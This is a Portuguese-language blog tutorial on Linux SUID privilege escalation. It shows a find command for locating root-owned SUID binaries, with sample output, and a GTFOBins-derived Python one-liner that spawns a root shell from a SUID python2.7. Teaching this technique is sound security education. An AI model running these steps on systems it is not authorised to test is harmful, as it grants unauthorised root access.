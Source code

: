 ```yaml
---
layout: post
title:  "SUID Privilege Escalation"
date:   2020-09-07 17:30:00 -0300
categories: hacking
author: "ReddyyZ"
lang: en-US
tags: [privilege escalation, linux]
---
```


Privilege escalation é um tipo de vulnerabilidade na qual o atacante consegue elevar seus privilégios para root ou algum outro usuário.<br>
Nesse artigo você vai aprender sobre como encontrar e explorar um privilege escalation.

## SUID Privilege Escalation

### O que é o SUID

BIT SUID é um tipo de permissão especial na qual o arquivo pode executar outros comandos como o usuário dono do arquivo.

![BIT SUID](/assets/images/suid.jpg)

Vamos a um exemplo:

O root é dono de um arquivo que executa o comando passado por argumento, este arquivo tem o bit SUID e todos os usuários tem permissão de executa-lo.

Se um usuário comum usar esse script para executar um comando, este comando será executado como root por causa do bit SUID.


### Encontrando arquivos com o bit SUID

Agora que já entendemos como funciona o bit SUID, vamos encontrar os arquivos com o bit SUID e que o dono seja o root.

Para isso usaremos uma ferramenta que já vem com o linux chamada find, vamos ao comando.
```sh
find / -user root -perm /4000 2>/dev/null
```

Explicando o comando:

Especifica o dono do arquivo `-user root`<br>
Procura por arquivos com o bit SUID `-perm /4000`<br>
Esconde os erros `2>/dev/null`

Resultado:

```sh
reddyyz@fsociety~$ find / -user root -perm /4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/chromium/chrome-sandbox
/usr/lib/xorg/Xorg.wrap
/usr/libexec/spice-client-glib-usb-acl-helper
/usr/share/code/chrome-sandbox
/usr/sbin/mount.cifs
/usr/sbin/mount.nfs
/usr/sbin/pppd
/usr/bin/mount
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/python2.7
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/vncserver-x11
/usr/bin/kismet_cap_linux_wifi
/usr/bin/chfn
/usr/bin/bwrap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/kismet_cap_linux_bluetooth
/usr/bin/ntfs-3g
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/kismet_cap_nrf_mousejack
/usr/bin/Xtightvnc
/home/reddyyz/VMWARE/vmware-tools-distrib/lib/bin64/vmware-user-suid-wrapper
/home/reddyyz/VMWARE/vmware-tools-distrib/lib/bin32/vmware-user-suid-wrapper
```
Esses são todos os arquivos com permissão SUID que o dono é o root.

### Encontrando e explorando um privilege escalation

Olhando esses arquivos um que chama atenção é o `/usr/bin/python2.7`.<br>
Vamos olhar se existe algum exploit conhecido para o python no [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid), site com várias formas de privilege escalation.

![GTFOBins Python](/assets/images/gtfobins-python.png)

E achamos uma forma de escalar nossos privilégios.<br>
Vamos executar o comando `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

```sh
reddyyz@fsociety:~$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# 
```

E conseguimos escalar nossos privilégios com sucesso!